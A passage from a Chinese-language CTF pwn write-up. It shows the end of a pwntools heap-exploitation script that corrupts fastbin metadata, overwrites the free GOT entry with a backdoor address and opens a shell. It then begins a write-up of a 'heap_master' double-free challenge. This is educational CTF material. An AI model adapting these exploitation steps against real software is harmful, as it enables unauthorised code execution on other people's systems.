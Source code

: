 ```
    p.recvuntil(b'Your choice : ')
    p.sendline(b'3')
    p.recvuntil(b'Index : ')
    p.sendline(str(index).encode())

alloc(0x60,'arttnba3')
alloc(0x60,'arttnba3')
alloc(0x60,'arttnba3')

free(1)

edit(0,0,0x60*b'A' + p64(0xdeadbeef) + p64(0x71) + p64(ptr_array - 0x10-3))
alloc(0x60,'arttnba3')
alloc(0x60,'arttnba3')

edit(3,0,b'A'*3 + p64(e.got['free']))
edit(0,0,p64(backdoor_addr))
free(0)

p.interactive() 
```

运行脚本即可getshell

![image.png](img/574062179db69776342bff3c300ab6d0.png)

## heap_master - double free(use after free) + orw

[点击下载-pwn](/download/minil/pwn/pwn%22%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E4%B8%8B%E8%BD%BD%E5%8E%9F%E9%A2%98%22)

> 遭到了sad师傅的暴击Or2

> （某种程度上算是minil的压轴题…？~~虽然说当时我连看都没看~~（←摸鱼划水人士，小朋友别学他

惯例的`checksec`，发现除了地址随机化以外都开上了
